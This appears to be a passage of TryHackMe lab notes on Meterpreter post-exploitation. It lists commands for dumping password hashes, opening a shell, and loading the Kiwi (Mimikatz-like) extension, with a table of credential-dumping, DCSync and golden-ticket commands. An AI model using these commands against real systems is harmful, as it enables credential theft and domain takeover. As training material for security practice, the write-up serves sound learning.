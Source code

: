 ### 🔐 Dumping Credentials
```bash
meterpreter > hashdump
```
Hashes can be used for:
- Cracking (rainbow tables)
- Pass-the-Hash attacks

---

### 🔍 File Search
```bash
meterpreter > search -f flag2.txt
```

---

### 💻 Interactive Shell
```bash
meterpreter > shell
```
> Use `CTRL+Z` to return to Meterpreter.

---

## 🧱 Task 5 - Post-Exploitation Challenge

### 🧬 Load Python Extension
```bash
meterpreter > load python
python_execute "print('TryHackMe Rocks!')"
```

### 🔓 Load Kiwi (Mimikatz-like Toolkit)
```bash
meterpreter > load kiwi
```

### 🛠️ Kiwi Commands
| Command           | Description                          |
|-------------------|--------------------------------------|
| `creds_all`       | Dump all available creds             |
| `lsa_dump_sam`    | Dump SAM database                    |
| `dcsync`          | Simulate domain controller sync      |
| `golden_ticket_create` | Create Kerberos golden ticket |
| `wifi_list`       | View saved Wi-Fi credentials         |

> View all with: `help` after `load kiwi`

---